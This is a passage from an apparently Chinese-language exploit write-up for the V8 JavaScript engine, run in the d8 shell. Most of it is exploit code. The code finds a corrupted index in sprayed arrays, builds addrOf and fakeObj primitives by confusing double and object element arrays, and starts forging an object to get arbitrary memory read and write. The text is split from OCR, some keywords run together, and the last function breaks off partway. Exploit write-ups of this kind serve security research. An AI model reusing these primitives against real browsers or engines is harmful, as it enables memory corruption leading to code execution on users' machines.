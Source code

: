 ```
    if (spray64[i] != floatToUint64(p.spray2[i])) {
      index_changed = i;
      break;
    }
  }
if (index_changed == -1) {
    returnfalse;
  }

  p.spray3_index = index_changed;
  print(`spray3_index = 0x${p.spray3_index}`);
returntrue;
}
```

  
  
这使我们处于经典的利用场景中，其中PACKED_DOUBLE_ELEMENTS数组可以控制数组的内容PACKED_ELEMENTS：  
  

```
functionbuildAddrofFakeobj() {
  p.addrOf = (obj) => {
    p.spray3[0] = obj;
    returnNumber(floatToUint64(p.spray2[p.spray3_index]) >> 32n) - 1;
  };

  p.fakeObj = (addr) => {
    p.spray2[p.spray3_index] = uint64ToFloat(BigInt(addr) << 32n);
    return p.spray3[0];
  };

  print(&#34;addrOf() and fakeObj() ready&#34;);
returntrue;
}
```

  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadW4c5qzY80wNzNYbcibsDER1nGbcM1GfUQy2j42Px75y34UzKDICcSS24a7Cas9BIyhSialwLfCz2Q/640?wx_fmt=png&from=appmsg "")  
  
通常在这个阶段，大多数漏洞利用都会转向 WebAssembly，以实现可靠的代码任意读写。但是，由于我希望继续留在d8环境中，因此我构造了一个伪造的对象：  
  

```
functionbuildArbitraryRw() {
// We will now use the spray2 (because we know its address) to make a fake obj
const fakeobj_addr = p.spray2_addr + 0x100 + 1;
const fakeobj_index = 29;
  print(`fakeobj_addr = 0x${fakeobj_addr.toString(16)}`);

// Create a helper to set WORD values
functionfakeObjSet(uint32_index, uint32_value) {
    let uint64_index = fakeobj_index + Math.trunc(uint32_index / 2);
    let uint64_value = floatToUint64(p.spray2[uint64_index]);

    if (uint32_index & 1) {
      uint64_value = (uint64_value & 0xFFFFFFFFn) | (BigInt(uint32_value) << 32n);
    } else {
      uint64_value = (uint64_value & 0xFFFFFFFF00000000n) | BigInt(uint32_value);
    }
    p.spray2[uint64_index] = uint64ToFloat(uint64_value);
  }

  fakeObjSet(0, 0x0004cee5n); // Map[16](PACKED_DOUBLE_ELEMENTS)
  fakeObjSet(1, 0x000007bdn); // properties
  fakeObjSet(2, 0x00000001n); // elements
  fakeObjSet(3, 0xf0000000n); // length << 1
```
